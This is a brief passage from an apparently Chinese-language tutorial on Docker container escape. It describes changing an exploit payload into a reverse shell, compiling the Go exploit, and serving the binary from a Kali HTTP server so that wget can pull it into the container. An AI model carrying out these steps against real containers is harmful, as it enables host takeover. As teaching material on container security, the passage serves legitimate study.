 修改payload为反弹shell

![image-20231008151704945](Docker逃逸漏洞案例.assets/image-20231008151704945.png)

修改完之后进行编译，

```text
CGO_ENABLED=0 GOOS=linux GOARCH=amd64 go build main.go 
```

![image-20231008151713095](Docker逃逸漏洞案例.assets/image-20231008151713095.png)

编译后会生成一个main的可执行文件，这里我们需要将其放到docker容器中，在kali中启动一个http服务，在容器中使用wget的命令去下载该文件

```text
python3 -m http.server 8080
```

![image-20231008151721117](Docker逃逸漏洞案例.assets/image-20231008151721117.png)
